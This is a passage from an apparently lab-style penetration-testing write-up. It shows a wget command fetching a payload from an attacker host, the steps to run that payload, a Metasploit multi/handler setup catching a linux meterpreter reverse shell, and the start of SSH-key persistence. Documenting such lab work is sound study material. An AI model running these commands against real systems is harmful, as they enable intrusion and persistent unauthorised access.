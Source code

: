 Download the file in the target machine from the attacker to the target machine using the vsftpd exploit:
```
wget http://<AttackerIp>/hola
```

![Alt text](images/Pasted%20image%2020250215104137.png)

In the target machine run the payload:
```
chmod +x hola
./hola
```

Now, the attacker machine has to be listening. The `multi/handler` module in Metasploit is used to catch and interact with incoming connections from payloads like reverse shells or meterpreter sessions. It's commonly used with msfvenom-generated payloads. Prepare the meterpreter listener:

```
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST <AttackerIp>
set LPORT <PortSelected>
run
```

In the attacker machine you will see the meterpreter session open with the reverse shell:

![Alt text](images/Pasted%20image%2020250215104444.png)

### 2.3.3. Generate the SSH Key
In the attacker machine, we generate a SSH Key:

```
mkdir ssh
ssh-keygen -t rsa -b 4096 -f ~/.ssh/persist_key
```
